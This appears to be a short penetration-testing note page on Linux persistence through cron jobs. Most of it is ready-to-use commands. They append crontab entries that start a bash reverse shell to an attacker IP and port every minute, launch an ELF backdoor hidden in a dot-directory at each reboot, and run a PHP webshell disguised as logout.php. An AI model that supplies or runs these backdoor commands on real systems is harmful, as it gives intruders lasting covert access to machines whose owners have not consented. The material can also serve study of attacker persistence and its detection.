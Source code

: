 # Cron Jobs

## 01 - Usage

- Open an editor via crontab

`$ sudo crontab -e`

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ echo "* * * * * <commands>" | crontab -

$ crontab -l
```

## 02 - Callback Shells

- Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/elf_backdoor" >> /etc/crontab
```

- Webshell backdoor

`$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab`

## 03 - Reverse SSH Tunnel

TODO: self explanatory

---
## References

- [[Linux Post Exploitation Persistence References]]

- [[Remote Port Forwarding|SSH: Remote Port Forwarding]]

- [Crontab GURU](https://crontab.guru)